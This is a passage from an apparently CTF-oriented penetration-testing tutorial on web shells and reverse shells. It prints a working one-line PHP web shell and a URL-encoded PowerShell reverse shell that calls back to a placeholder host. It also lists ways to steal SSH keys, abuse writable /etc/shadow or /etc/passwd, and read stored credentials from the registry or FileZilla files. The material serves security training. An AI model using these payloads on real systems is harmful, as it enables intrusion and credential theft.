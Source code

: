 ```txt

In a very basic one line format:

<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>

This will take a GET parameter in the URL and execute it on the system with shell_exec(). Essentially, what this means is that any commands we enter in the URL after ?cmd= will be executed on the system -- be it Windows or Linux. The "pre" elements are to ensure that the results are formatted correctly on the page.

Let's see this in action:

Notice that when navigating the shell, we used a GET parameter "cmd" with the command "ifconfig", which correctly returned the network information of the box. In other words, by entering the ifconfig command (used to check the network interfaces on a Linux target) into the URL of our shell, it was executed on the system, with the results returned to us. This would work for any other command we chose to use (e.g. whoami, hostname, arch, etc).

As mentioned previously, there are a variety of webshells available on Kali by default at /usr/share/webshells -- including the infamous PentestMonkey php-reverse-shell -- a full reverse shell written in PHP. Note that most generic, language specific (e.g. PHP) reverse shells are written for Unix based targets such as Linux webservers. They will not work on Windows by default.

When the target is Windows, it is often easiest to obtain RCE using a web shell, or by using msfvenom to generate a reverse/bind shell in the language of the server. With the former method, obtaining RCE is often done with a URL Encoded Powershell Reverse Shell. This would be copied into the URL as the cmd argument:

powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22

This is the same shell we encountered in Task 8, however, it has been URL encoded to be used safely in a GET parameter. Remember that the IP and Port (bold, towards end of the top line) will still need to be changed in the above code. 

# Next Steps

Ok, we have a shell. Now what?

We've covered lots of ways to generate, send and receive shells. The one thing that these all have in common is that they tend to be unstable and non-interactive. Even Unix style shells which are easier to stabilise are not ideal. So, what can we do about this?

On Linux ideally we would be looking for opportunities to gain access to a user account. SSH keys stored at /home/<user>/.ssh are often an ideal way to do this. In CTFs it's also not infrequent to find credentials lying around somewhere on the box. Some exploits will also allow you to add your own account. In particular something like Dirty C0w or a writeable /etc/shadow or /etc/passwd would quickly give you SSH access to the machine, assuming SSH is open.

On Windows the options are often more limited. It's sometimes possible to find passwords for running services in the registry. VNC servers, for example, frequently leave passwords in the registry stored in plaintext. Some versions of the FileZilla FTP server also leave credentials in an XML file at C:\Program Files\FileZilla Server\FileZilla Server.xml
 or C:\xampp\FileZilla Server\FileZilla Server.xml
. These can be MD5 hashes or in plaintext, depending on the version.

```